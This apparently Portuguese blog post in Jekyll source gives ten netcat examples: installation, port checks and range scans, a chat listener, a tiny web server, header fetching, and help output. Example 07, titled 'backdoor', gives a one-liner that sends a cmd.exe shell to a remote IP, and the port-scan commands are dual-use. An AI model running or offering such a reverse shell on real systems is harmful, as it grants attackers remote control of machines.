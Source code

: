 ```yaml
---
layout: post
title: "10 Exemplos do Comando Netcat (nc)"
date: 2021-04-12 13:41:43
image: '/assets/img/comandos/netcat.jpg'
description: 'Uma ferramente de comando de rede, simples e poderosa!'
icon: 'ion:terminal-sharp'
iconname: 'netcat'
tags:
- redes
- webhacker
---
```


![10 Exemplos do Comando Netcat (nc)](/assets/img/comandos/netcat.jpg)

O [Netcat](https://nc110.sourceforge.io/) é uma ferramenta de rede, disponível para sistemas operacionais [Unix](https://terminalroot.com.br/tags#unix), [Linux](https://terminalroot.com.br/tags#linux), [Microsoft Windows](https://terminalroot.com.br/tags#windows) e [Macintosh](https://terminalroot.com.br/tags#windows) que permite, por intermédio de comandos e com sintaxe muito sensível, abrir portas [TCP/UDP](https://terminalroot.com.br/tags#redes) e HOST. Permite forçar conexões UDP/TCP (útil para realizar rastreamento de portas ou realizar transferências de arquivos bit a bit entequipamentos). 

# Instalação
Para [Gentoo](https://terminalroot.com.br/tags#gentoo)/[Funtoo](https://terminalroot.com.br/tags#funtoo) basta rodar o comando:
{% highlight bash %}
sudo emerge --ask net-analyzer/netcat
{% endhighlight %}
> Alternativamente você pode usar a versão do [OpenBSD](https://terminalroot.com.br/tags#openbsd):

{% highlight bash %}
sudo emerge --ask net-analyzer/openbsd-netcat
{% endhighlight %}

<!-- QUADRADO -->
<script async src="//pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
style="display:inline-block;width:336px;height:280px"
data-ad-client="ca-pub-2838251107855362"
data-ad-slot="5351066970"></ins>
<script>
(adsbygoogle = window.adsbygoogle || []).push({});
</script>


Para sistemas baseados em *APT* [Debian](https://terminalroot.com.br/tags#debia), [Ubuntu](https://terminalroot.com.br/tags#ubuntu), [Linux Mint](https://terminalroot.com.br/tags#mint) e derivados, basta rodar:
{% highlight bash %}
sudo apt install netcat
{% endhighlight %}

E entre outras distros:
{% highlight bash %}
sudo dnf install nc # Fedora, RHEL, ..
sudo pacman -S netcat # Arch, Manjaro, ...
{% endhighlight %}

# Exemplos de uso

### 01. Verificar se uma porta está aberta
> Nesse caso a porta **80**

{% highlight bash %}
nc -z -v 192.168.1.1 80

# Exemplo de saída:
192.168.1.1: inverse host lookup failed: 
(UNKNOWN) [192.168.1.1] 80 (http) open
{% endhighlight %}

---

### 02. Verificando se uma range de portas estão abertas
> Nesse caso da porta 20 à 80

{% highlight bash %}
nc -z -v 10.10.8.8 20-80

# Exemplo de saída
nc: connect to 10.10.8.8 port 20 (tcp) failed: Connection refused
nc: connect to 10.10.8.8 port 21 (tcp) failed: Connection refused
Connection to 10.10.8.8 22 port [tcp/ssh] succeeded!
nc: connect to 10.10.8.8 port 23 (tcp) failed: Connection refused
...
nc: connect to 10.10.8.8 port 79 (tcp) failed: Connection refused
Connection to 10.10.8.8 80 port [tcp/http] succeeded!
{% endhighlight %}

---

### 03. Enviando um chat em uma determinada porta
{% highlight bash %}
nc -l -vv 192.168.1.105 -p 5000

192.168.1.105: inverse host lookup failed: 
listening on [any] 5000 ...
Iniciando um chat
Está funcionando ...
^C sent 0, rcvd 0

{% endhighlight %}

<!-- RETANGULO LARGO 2 -->
<script async src="//pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
style="display:block; text-align:center;"
data-ad-layout="in-article"
data-ad-format="fluid"
data-ad-client="ca-pub-2838251107855362"
data-ad-slot="8549252987"></ins>
<script>
(adsbygoogle = window.adsbygoogle || []).push({});
</script>


---

### 04. Criando um básico servidor web
+ Crie uma página web exemplo
{% highlight bash %}
echo '<h1>Servidor funfando de boa na porta 8080</h1>' >> index.html
{% endhighlight %}

+ Loop para o netcat
{% highlight bash %}
 while : ; do ( echo -ne "HTTP/1.1 200 OK\r\n" ; cat index.html; ) | nc -l -p 8080 ; done
{% endhighlight %}

Acesse: <http://localhost:8080>, irá aparecer sua página e após acessar o endereço a saída será enviada ao prompt:
{% highlight bash %}
GET / HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:87.0) Gecko/20100101 Firefox/87.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
{% endhighlight %}
> Derrube a conexão teclando: **Ctrl + Z** e em seguida mate o processo somente resetando o terminal: `reset`.

---

### 05. Criando um socket
{% highlight bash %}
nc -l /var/tmp/socket &
{% endhighlight %}

---

### 06. Obtendo cabeçalho de conexão de um endereço
{% highlight bash %}
printf "GET / HTTP/1.0\r\n\r\n" | nc google.com 80 | head -n 14
{% endhighlight %}

Saída:
{% highlight bash %}
HTTP/1.0 200 OK
Date: Mon, 12 Apr 2021 17:40:46 GMT
Expires: -1
Cache-Control: private, max-age=0
Content-Type: text/html; charset=ISO-8859-1
P3P: CP="This is not a P3P policy! See g.co/p3phelp for more info."
Server: gws
X-XSS-Protection: 0
X-Frame-Options: SAMEORIGIN
Set-Cookie: 1P_JAR=2021-04-12-17; expires=Wed, 12-May-2021 17:40:46 GMT; path=/; domain=.google.com; Secure
Set-Cookie: NID=213=l9jwYfBM; expires=Tue, 12-Oct-2021 17:40:46 GMT; path=/; domain=.google.com; HttpOnly
Accept-Ranges: none
Vary: Accept-Encoding
{% endhighlight %}

---

### 07. Criando um backdoor
{% highlight bash %}
nc 192.168.1.199 3000 -e cmd.exe
{% endhighlight %}

---

<!-- MINI ANÚNCIO -->
<script async src="//pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<!-- Games Root -->
<ins class="adsbygoogle"
style="display:inline-block;width:730px;height:95px"
data-ad-client="ca-pub-2838251107855362"
data-ad-slot="5351066970"></ins>
<script>
(adsbygoogle = window.adsbygoogle || []).push({});
</script>


### 08. Rodando um script
{% highlight bash %}
nc  8080 -c script.sh
{% endhighlight %}

---

### 09. Obtendo ajuda
{% highlight bash %}
nc -h

[v1.10]
connect to somewhere:	nc [-options] hostname port[s] [ports] ...
listen for inbound:	nc -l -p port [-options] [hostname] [port]
options:
	-c shell commands	as `-e'; use /bin/sh to exec [dangerous!!]
	-e filename		program to exec after connect [dangerous!!]
	-4			Use IPv4 (default)
	-6			Use IPv6
	-b			allow broadcasts
	-g gateway		source-routing hop point[s], up to 8
	-G num			source-routing pointer: 4, 8, 12, ...
	-h			this cruft
	-i secs			delay interval for lines sent, ports scanned
	-l			listen mode, for inbound connects
	-n			numeric-only IP addresses, no DNS
	-o file			hex dump of traffic
	-p port			local port number
	-q secs			quit after EOF on stdin and delay of secs
	-r			randomize local and remote ports
	-s addr			local source address
	-t			answer TELNET negotiation
	-u			UDP mode
	-v			verbose [use twice to be more verbose]
	-w secs			timeout for connects and final net reads
	-z			zero-I/O mode [used for scanning]
port numbers can be individual or ranges: lo-hi [inclusive]
{% endhighlight %}

---

### 10. Lendo o manual
{% highlight bash %}
man nc

netcat is a simple unix utility which reads and        /\_/\
writes data across network connections, using TCP     / 0 0 \
or UDP protocol. It is designed to be a reliable     ====v====
"back-end" tool that can be used directly or easily   \  W  /
driven by other programs and scripts.  At the same    |     |     _
time, it is a feature-rich network debugging and      / ___ \    /
exploration tool, since it can create almost any     / /   \ \  |
kind of connection you would need and has several   (((-----)))-'
interesting built-in capabilities.  Netcat, or "nc"  /
as the actual program is named, should have been    (      ___
supplied long ago as another one of those cryptic    \__.=|___E
but standard Unix tools.                                     /

{% endhighlight %}


